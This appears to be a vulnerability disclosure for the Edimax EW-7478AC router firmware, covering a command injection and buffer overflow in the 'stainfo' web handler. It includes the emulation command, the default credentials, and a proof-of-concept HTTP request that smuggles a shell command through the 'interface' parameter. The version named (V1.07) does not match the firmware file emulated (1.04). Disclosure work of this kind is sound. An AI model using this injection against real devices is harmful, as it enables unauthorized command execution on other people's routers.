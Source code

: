 ## **Description**

A command injection and buffer overflow vulnerability was discovered in the Edimax EW-7478AC firmware version ​**V1.07**. The vulnerability arises from the improper input validation of the `interface` parameter in the 'stainfo' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: EW-7478AC
- ​**Version**: V1.07

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/EW7478APC_1.04.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)

## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'stainfo' is below:
![vulner_code.png](./img/vulner_code.png)


- ​**websGetVar** retrieves POST parameters.
- ​**sprintf()** is used without length checks, leading to a ​buffer overflow.
- **system()** is used without check, so there is a command injection in this place


## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/stainfo HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 332
Connection: close

interface=1;echo hack>/poc.txt
```

After the request we can see the file 'poc.txt' been created in the root directory.
![result](./img/result.png)

if we change the value of 'interface', we can trigger a buffer overflow vulnerability. The attack result are as follow:
![overflow](overflow_result.png)